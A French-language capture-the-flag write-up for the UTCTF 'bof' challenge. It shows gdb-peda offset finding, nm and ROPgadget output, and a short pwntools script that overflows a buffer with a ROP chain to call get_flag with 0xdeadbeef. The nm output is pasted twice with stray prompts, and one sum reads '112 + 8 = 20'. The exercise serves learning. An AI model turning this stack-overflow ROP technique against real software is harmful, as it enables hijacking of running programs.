

# Write Up du challenge bof de l'UTCTF

J'ai participé au ctf UTCF avec ma team ret2school, durant ce ctf j'ai résolu de challenge (ouai .. c'est pas beaucoup mais je suis pas un gars de cétéfage). Je vous propose donc mon write-up pour le challenge bof

Ce challenge étais très très simple, il suffisais d'appeler une fonction "get_flag" avec rdi contenant 0xdeadbeef, on devais donc de faire un pop rdi; ret + deadbeef + adresse de get_flag

## On trouve l'offset

J'ai utilisé gdb-peda pour ceci:

```
astate@sec:~/Downloads/ctf$ gdb ./pwnable 
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...

warning: /tmp/pwndbg/gdbinit.py: Aucun fichier ou dossier de ce type
Reading symbols from ./pwnable...(no debugging symbols found)...done.
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /home/astate/Downloads/ctf/pwnable 
I really like strings! Please give me a good one!
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
Thanks for the string

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x1 
RBX: 0x0 
RCX: 0x7ffff7b15730 (<__write_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd5760 --> 0x0 
RSI: 0x602010 ("Thanks for the string\n Please give me a good one!\n")
RDI: 0x0 
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffcd48 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x4005e9 (<main+51>:	ret)
R8 : 0x7ffff7fd8700 (0x00007ffff7fd8700)
R9 : 0x7fffffffcd00 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
R10: 0x55 ('U')
R11: 0x246 
R12: 0x4004c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffce20 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005de <main+40>:	call   0x400470 <puts@plt>
   0x4005e3 <main+45>:	mov    eax,0x1
   0x4005e8 <main+50>:	leave  
=> 0x4005e9 <main+51>:	ret    
   0x4005ea <get_flag>:	push   rbp
   0x4005eb <get_flag+1>:	mov    rbp,rsp
   0x4005ee <get_flag+4>:	sub    rsp,0x20
   0x4005f2 <get_flag+8>:	mov    DWORD PTR [rbp-0x14],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffcd48 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffcd50 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffcd58 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffcd60 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffcd68 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffcd70 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffcd78 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0056| 0x7fffffffcd80 ("AuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005e9 in main ()
gdb-peda$ pattern_offset AA8AANAA
AA8AANAA found at offset: 112
gdb-peda$ q
```

Donc pour overwrite saved rbp -> 112 et pour savaed rip 112 + 8 = 20

## POP rdi; ret et get_flag 

```
astate@sec:~/Downloads/ctf$ nm ./pwnable 
0000000000601048 B __bss_start
0000000000601048 b completed.7594
0000000000601038 D __data_start
0000000000601038 W data_start
00000000004004f0 t deregister_tm_clones
0000000000400570 t __do_global_dtors_aux
0000000000600e18 t __do_global_dtors_aux_fini_array_entry
0000000000601040 D __dso_handle
0000000000600e28 d _DYNAMIC
0000000000601048 D _edata
0000000000601050 B _end
                 U execve@@GLIBC_2.2.5
00000000004006a4 T _fini
0000000000400590 t frame_dummy
0000000000600e10 t __frame_dummy_init_array_entry
0000000000400858 r __FRAME_END__
00000000004005ea T get_flag
                 U gets@@GLIBC_2.2.5
0000000000601000 d _GLOBAL_OFFSET_TABLE_
                 w __gmon_start__
0000000000400708 r __GNU_EH_FRAME_HDR
0000000000400438 T _init
0000000000600e18 t __init_array_end
0000000000600e10 t __init_array_start
00000000004006b0 R _IO_stdin_used
                 w _ITM_deregisterTMCloneTable
                 w _ITM_registerTMCloneTable
0000000000600e20 d __JCR_END__
0000000000600e20 d __JCR_LIST__
                 w _Jv_RegisterClasses
00000000004006a0 T __libc_csu_fini
0000000000400630 T __libc_csu_init
                 U __libc_start_main@@GLIBC_2.2.5
00000000004005b6 T main
                 U puts@@GLIBC_2.2.5
0000000000400530 t register_tm_clones
00000000004004c0 T _start
000000000060104astate@sec:~/Downloads/ctf$ nm ./pwnable 
0000000000601048 B __bss_start
0000000000601048 b completed.7594
0000000000601038 D __data_start
0000000000601038 W data_start
00000000004004f0 t deregister_tm_clones
0000000000400570 t __do_global_dtors_aux
0000000000600e18 t __do_global_dtors_aux_fini_array_entry
0000000000601040 D __dso_handle
0000000000600e28 d _DYNAMIC
0000000000601048 D _edata
0000000000601050 B _end
                 U execve@@GLIBC_2.2.5
00000000004006a4 T _fini
0000000000400590 t frame_dummy
0000000000600e10 t __frame_dummy_init_array_entry
0000000000400858 r __FRAME_END__
00000000004005ea T get_flag
                 U gets@@GLIBC_2.2.5
0000000000601000 d _GLOBAL_OFFSET_TABLE_
                 w __gmon_start__
0000000000400708 r __GNU_EH_FRAME_HDR
0000000000400438 T _init
0000000000600e18 t __init_array_end
0000000000600e10 t __init_array_start
00000000004006b0 R _IO_stdin_used
                 w _ITM_deregisterTMCloneTable
                 w _ITM_registerTMCloneTable
0000000000600e20 d __JCR_END__
0000000000600e20 d __JCR_LIST__
                 w _Jv_RegisterClasses
00000000004006a0 T __libc_csu_fini
0000000000400630 T __libc_csu_init
                 U __libc_start_main@@GLIBC_2.2.5
00000000004005b6 T main
                 U puts@@GLIBC_2.2.5
0000000000400530 t register_tm_clones
00000000004004c0 T _start
0000000000601048 D __TMC_END__
astate@sec:~/Downloads/ctf$ 8 D __TMC_END__
astate@sec:~/Downloads/ctf$ 
```

Donc adresse de get_flag: 0x00000000004005ea

```
astate@sec:~/Downloads/ctf$ ROPgadget --binary ./pwnable
Gadgets information
============================================================
0x0000000000400512 : adc byte ptr [rax], ah ; jmp rax
0x0000000000400511 : adc byte ptr [rax], spl ; jmp rax
0x000000000040050e : adc dword ptr [rbp - 0x41], ebx ; adc byte ptr [rax], spl ; jmp rax
0x0000000000400497 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x400464
0x000000000040069f : add bl, dh ; ret
0x000000000040069d : add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040069b : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400477 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x400464
0x000000000040051c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040069c : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000004005e5 : add byte ptr [rax], al ; add cl, cl ; ret
0x000000000040044b : add byte ptr [rax], al ; add rsp, 8 ; ret
0x0000000000400479 : add byte ptr [rax], al ; jmp 0x400462
0x00000000004005e6 : add byte ptr [rax], al ; leave ; ret
0x000000000040051e : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040069e : add byte ptr [rax], al ; ret
0x0000000000400598 : add byte ptr [rbp + 5], dh ; jmp 0x400533
0x0000000000400588 : add byte ptr [rcx], al ; ret
0x00000000004005e7 : add cl, cl ; ret
0x0000000000400680 : add dword ptr [rax + 0x39], ecx ; jmp 0x4006fd
0x0000000000400487 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x400464
0x00000000004005e4 : add dword ptr [rax], eax ; add byte ptr [rax], al ; leave ; ret
0x0000000000400584 : add eax, 0x200abe ; add ebx, esi ; ret
0x00000000004004a7 : add eax, dword ptr [rax] ; add byte ptr [rax], al ; jmp 0x400464
0x0000000000400589 : add ebx, esi ; ret
0x000000000040044e : add esp, 8 ; ret
0x000000000040044d : add rsp, 8 ; ret
0x0000000000400587 : and byte ptr [rax], al ; add ebx, esi ; ret
0x0000000000400474 : and byte ptr [rax], al ; push 0 ; jmp 0x400467
0x0000000000400484 : and byte ptr [rax], al ; push 1 ; jmp 0x400467
0x0000000000400494 : and byte ptr [rax], al ; push 2 ; jmp 0x400467
0x00000000004004a4 : and byte ptr [rax], al ; push 3 ; jmp 0x400467
0x00000000004005ae : call rax
0x0000000000400596 : cmp dword ptr [rdi], 0 ; jne 0x4005a5 ; jmp 0x400535
0x0000000000400595 : cmp qword ptr [rdi], 0 ; jne 0x4005a6 ; jmp 0x400536
0x0000000000400287 : fcomp dword ptr [rbp + 0x13fa709e] ; sub al, 0x5d ; retf 0x2d9e
0x000000000040067c : fmul qword ptr [rax - 0x7d] ; ret
0x00000000004005a9 : int1 ; push rbp ; mov rbp, rsp ; call rax
0x000000000040050d : je 0x400528 ; pop rbp ; mov edi, 0x601048 ; jmp rax
0x000000000040055b : je 0x400570 ; pop rbp ; mov edi, 0x601048 ; jmp rax
0x00000000004005a8 : je 0x4005a1 ; push rbp ; mov rbp, rsp ; call rax
0x000000000040047b : jmp 0x400460
0x000000000040059b : jmp 0x400530
0x0000000000400626 : jmp 0x400629
0x0000000000400683 : jmp 0x4006fa
0x0000000000400515 : jmp rax
0x0000000000400599 : jne 0x4005a2 ; jmp 0x400532
0x00000000004005e8 : leave ; ret
0x0000000000400583 : mov byte ptr [rip + 0x200abe], 1 ; ret
0x00000000004004a2 : mov cl, byte ptr [rbx] ; and byte ptr [rax], al ; push 3 ; jmp 0x400469
0x00000000004005e3 : mov eax, 1 ; leave ; ret
0x00000000004005ac : mov ebp, esp ; call rax
0x0000000000400510 : mov edi, 0x601048 ; jmp rax
0x0000000000400585 : mov esi, 0x100200a ; ret
0x00000000004005ab : mov rbp, rsp ; call rax
0x0000000000400472 : movabs byte ptr [0x6800200b], al ; jmp 0x400469
0x0000000000400449 : movsxd rax, dword ptr [rax] ; add byte ptr [rax], al ; add rsp, 8 ; ret
0x0000000000400628 : nop ; leave ; ret
0x0000000000400518 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000400698 : nop dword ptr [rax + rax] ; ret
0x0000000000400565 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400586 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; ret
0x000000000040055c : or ebx, dword ptr [rbp - 0x41] ; adc byte ptr [rax], spl ; jmp rax
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x00000000004005b0 : pop rbp ; jmp 0x400531
0x0000000000400582 : pop rbp ; mov byte ptr [rip + 0x200abe], 1 ; ret
0x000000000040050f : pop rbp ; mov edi, 0x601048 ; jmp rax
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400520 : pop rbp ; ret
0x000000000040028e : pop rbp ; retf 0x2d9e
0x0000000000400693 : pop rdi ; ret
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400476 : push 0 ; jmp 0x400465
0x0000000000400486 : push 1 ; jmp 0x400465
0x0000000000400496 : push 2 ; jmp 0x400465
0x00000000004004a6 : push 3 ; jmp 0x400465
0x00000000004005aa : push rbp ; mov rbp, rsp ; call rax
0x0000000000400451 : ret
0x000000000040028f : retf 0x2d9e
0x000000000040055a : sal byte ptr [rbx + rcx + 0x5d], 0xbf ; adc byte ptr [rax], spl ; jmp rax
0x000000000040050c : sal byte ptr [rcx + rdx + 0x5d], 0xbf ; adc byte ptr [rax], spl ; jmp rax
0x00000000004005a7 : sal byte ptr [rcx + rsi*8 + 0x55], 0x48 ; mov ebp, esp ; call rax
0x000000000040028d : sub al, 0x5d ; retf 0x2d9e
0x00000000004006a5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004006a4 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040051a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040069a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000004005a6 : test eax, eax ; je 0x4005a3 ; push rbp ; mov rbp, rsp ; call rax
0x00000000004005a5 : test rax, rax ; je 0x4005a4 ; push rbp ; mov rbp, rsp ; call rax

Unique gadgets found: 94
astate@sec:~/Downloads/ctf$ 
```

pop rdi; ret est à 0x0000000000400693

## L'exploitation

```python
from pwn import *

p = process("./pwnable")

get_flag = 0x4005ea
poprdi = 0x400693
pad = 120

ropchain = ("A"*pad).encode() + p64(poprdi) + p64(0xdeadbeef) + p64(get_flag)

p.recvuntil("good one!\n")
p.sendline(ropchain)

p.interactive("Sah t un h4ck3r fréro > ")
```

Easy ! 
